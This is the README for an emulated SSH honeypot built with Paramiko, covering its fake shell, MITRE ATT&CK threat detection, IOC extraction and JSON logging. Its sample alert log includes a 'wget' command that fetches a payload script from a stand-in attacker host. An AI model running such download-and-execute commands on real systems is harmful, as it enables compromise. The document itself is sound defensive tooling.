

# 🛡️ Modular Paramiko SSH Honeypot

A lightweight, fully emulated, production-ready SSH Honeypot built in Python using Paramiko. Designed for public VPS deployment to capture live attacker brute-force credentials, interactive terminal commands, Indicators of Compromise (IOCs), and MITRE ATT&CK techniques without executing untrusted input.

---

## 📐 Architecture Diagram



---

## ✨ Features

- **100% In-Memory Emulated Shell**: Safe execution model with zero calls to `subprocess`, `os.system`, `eval`, or `exec`.
- **Configurable Authentication**: Accepts common weak credentials (`root/root`, `admin/admin`, etc.) or permits entry after $N$ failed attempts per IP.
- **Rich Telemetry**: Captures client SSH banner (`remote_version`), key exchange parameters (`kex_info`), public key fingerprints, PTY dimensions, and exec mode requests.
- **Realistic Linux Filesystem**: Complete fake hierarchy containing `/`, `/etc/passwd`, `/etc/os-release`, `/proc/cpuinfo`, `/proc/meminfo`, `/tmp`, and `/root`.
- **Emulated System Commands**: Believable output for `uname`, `ps`, `free`, `df`, `w`, `uptime`, `lscpu`, `nproc`, `ifconfig`, `history`, `env`, `which`, `id`, `whoami`, `ls`, `cat`, `cd`, `mkdir`, `touch`, `rm`, `chmod`, `echo` (with `>` and `>>` redirection), and `wget`/`curl`/`tftp`.
- **Threat Detection & MITRE ATT&CK Mapping**: Regex parsing with word boundary protection to accurately detect malware downloads, reverse shells, cron persistence, and credential access mapped to MITRE ATT&CK technique IDs (`T1105`, `T1059.004`, `T1098.004`, etc.).
- **IOC Extraction**: Automatically extracts URLs, IPv4/IPv6 addresses, domain names, and MD5/SHA256 file hashes from commands into structured log fields.
- **Structured JSON Logging**: Standardized JSON Lines output formatted with UTC ISO 8601 timestamps and rotated via `RotatingFileHandler`.
- **Hardened Web Dashboard**: Flask analytics UI bound to `127.0.0.1` with Jinja autoescaping and safe error handling.

---

## ⚡ Quick Start

### 1. Local Development & Testing

```bash
# Install dependencies
pip install -r requirements.txt

# Run unit tests
pytest -v tests/

# Start honeypot server locally (listens on 127.0.0.1:2222)
python main.py
```

Test interactive SSH session:
```bash
ssh -p 2222 root@127.0.0.1
```

Test non-interactive exec-mode command:
```bash
ssh -p 2222 admin@127.0.0.1 "uname -a; whoami"
```

Start Web Dashboard:
```bash
python web/app.py
```
Open `http://127.0.0.1:5000/` in your browser.

### 2. Docker Quick Start

```bash
docker-compose up -d --build
```

---

## ⚙️ Configuration Options (`config/settings.py`)

| Setting | Default Value | Description |
|---|---|---|
| `COMMON_CREDENTIALS` | List of common pairs | Pre-approved weak login credentials |
| `ALLOW_ANY_AFTER_N_FAILS` | `3` | Number of failed attempts per IP before accepting login |
| `LISTEN_HOST` | `"127.0.0.1"` | IP address to bind SSH server |
| `LISTEN_PORT` | `2222` | Port to listen for SSH traffic |
| `WEB_HOST` | `"127.0.0.1"` | Web dashboard bind address |
| `WEB_PORT` | `5000` | Web dashboard HTTP port |
| `MAX_GLOBAL_CONNECTIONS`| `50` | Maximum simultaneous global connections |
| `MAX_PER_IP_CONNECTIONS`| `5` | Maximum concurrent connections per client IP |
| `IDLE_TIMEOUT` | `120` | Session idle timeout in seconds |
| `HOSTNAME` | `"srv01"` | Emulated system hostname |

---

## 📜 Log Format Example (`data/logs/alerts.jsonl`)

```json
{
  "timestamp": "2026-09-23T16:00:00.123456+00:00",
  "event": "alert",
  "session_id": "a1b2c3d4",
  "src_ip": "198.51.100.45",
  "username": "root",
  "severity": "HIGH",
  "hits": ["wget_download"],
  "category": "download_execute",
  "mitre_attack": ["T1105"],
  "command": "wget http://evil.com/payload.sh -O /tmp/x.sh",
  "iocs": {
    "urls": ["http://evil.com/payload.sh"]
  }
}
```

---

## 🔒 Threat Model & Safety Guarantees

1. **Zero Attacker Code Execution**: No attacker-supplied strings ever touch the host shell, OS environment, or Python `eval`/`exec`.
2. **No Outbound Network Fetching**: Commands like `wget`, `curl`, and `tftp` return simulated stdout text and extract URL strings into `iocs` without sending outbound packets.
3. **Container Sandbox Hardening**: Docker compose config enforces `read_only: true`, `cap_drop: ALL`, `security_opt: no-new-privileges`, and `internal: true` networking.

---

## 🚀 Deployment Guide

For public VPS deployment instructions, host SSH port remapping, firewall rules, and daily backup scripts, see [DEPLOY.md](file:///c:/Users/ziedd/Downloads/ssh_honeypot-main/DEPLOY.md).